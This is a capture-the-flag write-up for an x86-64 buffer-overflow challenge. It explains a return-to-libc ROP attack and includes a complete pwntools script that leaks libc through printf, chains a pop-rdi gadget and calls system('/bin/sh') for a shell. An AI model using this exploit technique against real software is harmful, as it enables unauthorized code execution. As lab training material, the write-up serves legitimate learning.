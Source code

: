 ```yaml
---
title: "Liberate your Library"
layout: page
---
```


- Exploitation
- Buffer Overflow
- C
- X86_64
- Medium

Writeup by `Sasszem`

# Description and resources
## Mission brief
Exploit an ELF binary and read the flag from a file.

## Instructions
You are getting more and more enthusiastic and start feeling the vibe of a real job. Yes, you are good at breaking things. So here is the thing. There is a simple binary in your `src` directory that is armoured with certain recent hardening techniques such as the NX bit, ASLR or RELRO. Fortunately, you already heard about ROP and Return-to-LibC.

- We prepared a fully armoured environment to succeed - with this challenge, so we installed your favourite - tools:
- GDB with PEDA
- Checksec
- Pwntools for python3
- ROPgadget
- vim/nano

Your next target is called `main` and your job is to exploit it to get access to the file `/flag`. Enjoy the ride and have fun.

(a few things were links but I did not bother to copy since they were to 1st hits on google)

---

# Writeup

Now this one was significantly harder than the 1st part, but not that hard overall.

The supplied binary starts by telling me it's `printf`'s address. Hmkay than, I `scp`d the `libc` from the server and also had a `libc` address. Might come handy later.

The program then continues with reading in input, then printing it back. It's double hell, since it both uses `gets` to read and `printf` to print, but I only used the `gets` vulnerability.

Basically we have a classic buffer overflow, no canary, no ASLR, only NX bit. ROP works pretty well, and I used this opportunity to try out `pwnlib`'s ROP module. I did not use it in the intended way, but still worked out.

The code I made with ROP only sets up the parameters (`/bin/bash`) and calls the libc `system` function so I can get a shell. Nothing too fancy.

```python
from pwn import *

#p = process('./main')
LOCAL = True

# GDB helps to debug locally
p = gdb.debug('./main', '''b *vuln+0x2c''') if LOCAL else process('./main')


binary = ELF('./main')
context.binary = binary
libc = ELF('./libc.so.6.local') if LOCAL else ELF('/lib/x86_64-linux-gnu/libc.so.6')


# leak libc address - it's free as it's printed
p.recvline()
printf_addr = eval(p.recvline())
print(f"Printf: 0x{libc.symbols['printf']:x}")
libc_base = printf_addr - libc.symbols["printf"]
print(f"{libc_base=:x}")


# We have a simple overflow, so a simple ROP attack is all that needed

# single ret to fix the stack laignment
ret_addr = libc_base + next(libc.search(b"\xc3"))

# pop rdi and bp
# found using ropper
# (different on local vs remote bc I have a differnet libc locally)
# bp popping is not necessary, but this was one of the best gadgets for rdi, and popping 2 values also works out for aligning the stack
poprdirbp = libc_base + (0x276e9 if LOCAL else 0x2456d)

# address of "/bin/sh\0" (from libc)
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

# address of system function
system_addr = libc_base + libc.symbols["system"]

libc.address = libc_base



# build that rop chain

rop = ROP(binary)
rop.raw(b"A"*64) # filler
rop.raw(b"B"*8) # RBP - not needed so overwritten w/ junk

#rop.raw(ret_addr) # not needed, used for stack aligning but double pop does that too

# set rdi="/bin/sh" (1st param of system)
rop.raw(poprdirbp) # also auto-aligns the stack :P
rop.raw(binsh) # RDI -> binsh (1st param)
rop.raw(b"AAAAAAAA") # filler for rbp

# system it
rop.raw(system_addr) #, [binsh])


# see what I have done
print(rop.dump())


p.sendline(rop.chain())
print(p.clean())
p.interactive()
```

Only real problem was the unaligned stack but a bit of googling solved that all. Debugging shellcode is never easy however, and it took me some time to get it to work. Also for some reason the `ROP` class did not want to work on the server, so I had to change that part a bit later.